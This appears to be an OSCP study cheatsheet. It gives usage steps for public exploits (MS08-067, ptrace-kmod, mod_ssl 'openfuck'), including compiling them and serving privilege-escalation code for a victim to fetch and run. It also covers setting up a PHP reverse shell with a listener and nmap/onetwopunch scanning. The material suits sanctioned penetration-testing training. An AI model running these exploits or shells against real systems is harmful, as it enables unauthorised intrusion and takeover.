 # cheatsheets and exploit code and scripts / OSCP
 

**python ms08-067 remote exploit** (https://www.exploit-db.com/exploits/40279)

edit `shellcode` variable with payload and adjusts NOPS to fit it

---

**ptrace-kmod Linux privilege escalation** Works for 2.2.x and 2.4.x kernels. (https://www.exploit-db.com/exploits/3) 
```c
// #include <linux/user.h>
#include <sys/user.h>
#include <sys/reg.h>
```

---

**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)
commented out #COMMAND2 to download, compile and execute privilege escalation using ptrace-kmod.c

1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**php reverse shell** (http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`

1. modify code
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
--- 

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Wrapper for unicornscan (fast port scan) and nmap (vuln script scan)

1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
